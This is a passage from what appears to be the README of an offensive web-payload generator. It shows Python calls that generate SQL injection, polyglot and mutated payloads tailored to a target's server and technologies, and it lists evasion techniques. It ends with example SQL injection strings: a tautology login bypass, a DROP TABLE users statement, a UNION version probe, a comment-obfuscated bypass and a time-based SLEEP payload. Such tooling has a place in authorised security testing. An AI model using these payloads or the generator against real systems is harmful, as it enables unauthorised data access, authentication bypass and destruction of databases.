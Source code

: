 ### **2. Manual Payload Generation**

```python
from core.payload_generator import PayloadGenerator

# Initialize generator
generator = PayloadGenerator()

# Generate SQL injection payloads
sql_payloads = generator.generate_advanced_payloads('sql_injection', count=20)

# Generate polyglot payloads
polyglots = generator.generate_polyglot_payloads(count=10)

# Generate mutations
mutations = generator.generate_mutation_payloads("' OR 1=1 --", generations=3)
```

### **3. Context-Aware Generation**

```python
# Specify target information for customized payloads
target_info = {
    'server': 'Apache/2.4.41',
    'technologies': ['php', 'mysql'],
    'content_type': 'application/json'
}

# Generate context-aware payloads
payloads = generator.generate_advanced_payloads(
    'sql_injection',
    count=15,
    target_info=target_info
)
```

## 🎯 Payload Categories

### **1. SQL Injection**
- **Classic Injections**: Union-based, boolean-based, time-based
- **Database-Specific**: MySQL, PostgreSQL, MSSQL, Oracle, SQLite
- **Advanced Techniques**: JSON injection, XML path injection, second-order
- **Evasion Methods**: Comment obfuscation, encoding bypass, case variation

**Example Payloads:**
```sql
' OR 1=1 --
'; DROP TABLE users; --
' UNION SELECT @@version,NULL,NULL --
admin'/**/OR/**/1=1#
' AND (SELECT * FROM (SELECT(SLEEP(5)))a) --
```
